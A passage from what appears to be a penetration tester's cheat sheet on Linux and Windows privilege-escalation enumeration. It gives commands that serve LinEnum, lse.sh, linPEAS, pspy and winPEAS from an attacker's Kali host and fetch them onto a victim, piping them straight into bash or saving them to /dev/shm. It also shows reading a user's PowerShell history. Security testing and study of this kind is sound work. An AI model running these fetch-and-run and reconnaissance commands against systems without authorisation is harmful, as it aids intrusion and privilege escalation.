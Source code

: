 ##### Tools

`LinEnum.sh`:

```
root@kali:$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/LinEnum.sh -qO- |bash
```

`lse.sh`:

```
root@kali:$ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/lse.sh -qO- |bash
```

`linPEAS.sh` (linPEAS):

```
root@kali:$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/linpeas.sh -qO- |sh
```

`pspy`:

```
root@kali:$ wget [1] && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/pspy -qO /dev/shm/pspy && cd /dev/shm && chmod +x pspy
user@vict:$ ./pspy
```

1. [github.com/DominicBreuker/pspy/releases](https://github.com/DominicBreuker/pspy/releases)


#### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)



### Windows


#### Recon

PowerShell history:

```
PS > Get-Content C:\Users\snovvcrash\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

##### Tools

winPEAS:

```
root@kali:$ git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/tools/privilege-escalation-awesome-scripts-suite
root@kali:$ cp ~/tools/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe . && python3 -m http.server 80
PS > (new-object net.webclient).downloadfile('http://127.0.0.1/winPEAS.exe', 'C:\Users\snovvcrash\music\winPEAS.exe')
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)